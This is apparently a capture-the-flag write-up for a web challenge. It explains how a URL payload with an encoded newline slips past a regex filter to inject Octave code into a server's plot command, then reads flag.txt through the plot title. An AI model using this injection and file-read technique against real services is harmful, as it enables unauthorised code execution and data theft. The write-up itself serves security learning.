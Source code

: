 ### Challenge
Name: Ohio Instuments 84  
Category: web  
Difficulty: medium  

### Solution
Enter the URL `https://ohio-instruments-84.chall.pwnoh.io/x)%0Atitle(fileread(char(readdir(char(46))(8)))`  
You receive the flag as an image, wherever you see a subscript then some character c, it appears as _c in the flag  
![Response of the API request](result.png)

### Explanation
The payload in this case is a regex-limited string injection into octave
```javascript
if (!/^([x()+*\-\.\^/\d\s]|(\w+\())+$/.test(expr)) {
    throw new Error("Invalid expression");
}
const filename = `${crypto.randomUUID()}.jpg`;
const cmd = `x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')`;
```
#### Regex breakdown
`x, (, ), +, *, -, ., ^, \d (digits), \s (whitespace)` are all valid characters  
You can also use any `\w (alphanumeric or underscore)` character followed by a `(`
[regexr](https://regexr.com/) is a great tool for writing regex validated payloads

#### Octave payload breakdown
`%0A` is a newline character, so if we look at the command the server runs
```javascript
const cmd = `x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')`;
```
The expanded octave script looks like
```octave
x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')
```
After substitution
```octave
x = -10:.2:10; h = figure('visible', 'off'); plot(x, x)
title(fileread(char(readdir(char(46))(8)))); saveas(h, 'xxxxxxxxxxxxxxxx.png')
```
So we plot a line, and run `title(fileread(char(readdir(char(46))(8))))`  
`char(46)` returns the character with ASCII code 46 (`"."`)  
`readdir(".")` returns a cell array of strings with filenames in the current directory  
`readdir(".")(8)` gets the 8th item from that cell array (`"flag.txt"`)  
`char("flag.txt")` casts a cell type to a string  
`fileread("flag.txt")` reads the content of the flag `"bctf{the_flag_contents}"`  
`title("bctf{the_flag_contents}")` writes the flag to the plot  
Then it is sent to us with the flag!  